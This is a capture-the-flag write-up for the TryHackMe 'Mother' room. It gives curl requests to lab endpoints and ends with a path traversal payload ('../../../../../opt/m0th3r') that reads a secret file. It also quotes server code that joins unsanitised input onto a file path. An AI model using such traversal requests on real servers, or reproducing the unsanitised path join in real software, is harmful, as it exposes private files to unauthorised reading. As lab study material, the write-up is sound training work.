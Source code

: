 # Mother

A writeup for the room [Mother](https://tryhackme.com/room/codeanalysis) on TryHackMe.

> Exploit flaws found in Mother's code to reveal its secrets.

<Image src={require("./logo.png").default} height="256" />

### What is the number of the emergency command override?

It is written in the description of the room.

### What is the special order number?

If we go to the home page, we can see different boxes that explain a little what the application can do. We are logged in as "Crew Member" without any permissions.

<Image src={require("./1-homepage.webp").default} />

<Image src={require("./2-classified.webp").default} />

We can see that there is a tool called Alien Loader that allows to upload yaml files to the server. It is the same tool described in the room description.

Since Alien Loader allows us to upload yaml files, we can try to use the available endpoint for yaml files to download 100375.yaml

<Image src={require("./3-yaml.webp").default} />

Run this command to make the request (remember to change the IP):

```bash
curl -X POST -d '{"file_path":"100375.yaml"}' -H "Content-Type: application/json" MACHINE_IP/yaml
```

The response will contain the special order number.

```
FOR SCIENCE OFFICER EYES ONLY  special SECRETS:  REROUTING TO: api/nostromo ORDER: 0rd3rXYZ.txt [****]
UNABLE TO CLARIFY. NO FURTHER ENHANCEMENT.
```

Now we know the number of the special order.

Be careful with the paths, the yaml endpoint is directly under root, while the Nostromo ones are under /api.

```
POST /yaml
POST /api/nostromo
POST /api/nostromo/mother

{
  "file_path": "path/to/file"
}
```

### What is the hidden flag in the Nostromo route?

The flag can be obtained by downloading the special order file from the nostromo endpoint.

<Image src={require("./4-nostromo.webp").default} />

The request:

```bash
curl -X POST -d '{"file_path":"0rd3r937.txt"}' -H "Content-Type: application/json" MACHINE_IP/api/nostromo
```

The result:

```
Mother
FOR SCIENCE OFFICER EYES ONLY 
SPECIAL ORDER 937 [............

PRIORITIY 1 ****** ENSURE RETURN OF ORGANISM FOR ANALYSIS****]

ALL OTHER CONSIDERATIONS SECONDARY

CREW EXPENDABLE

Flag{--REDACTED--}
```

### What is the name of the Science Officer with permissions?

After calling the previous endpoints, we can see that the username at the top of the homepage has changed.

<Image src={require("./5-ash.webp").default} />

### What are the contents of the classified "Flag" box?

Now that we are logged in as Ash when we go to the flag section we can finally see the contents of the classified box.

### Where is Mother's secret?

In the description of the room, it is indicate that the goal is to obtain the file secret.txt in the mother folder.

Now that we have activated the two other endpoints for authentication, we can try to call the mother one.

```bash
curl -X POST -d '{"file_path":"../../../../../opt/m0th3r"}' -H "Content-Type: application/json" MACHINE_IP/api/nostromo/mother
```

This will return the contents of the secret.txt file.

### What is Mother's secret?

All endpoints implemented in the routes file, including the mother endpoint, are vulnerable to path traversal. 

The user can insert any value and it will be concatenated to the base path without any sanitization.

```js
let file_path = req.body.file_path;
const filePath = `./public/${file_path}`;
```

So, if we send something like ../../../../../opt/m0th3r the value of filePath will be:

```
./public/../../../../../opt/m0th3r -> /opt/m0th3r
```

Send this request for the final flag:

```bash
curl -X POST -d '{"file_path":"../../../../../opt/m0th3r"}' -H "Content-Type: application/json" MACHINE_IP/api/nostromo/mother
```

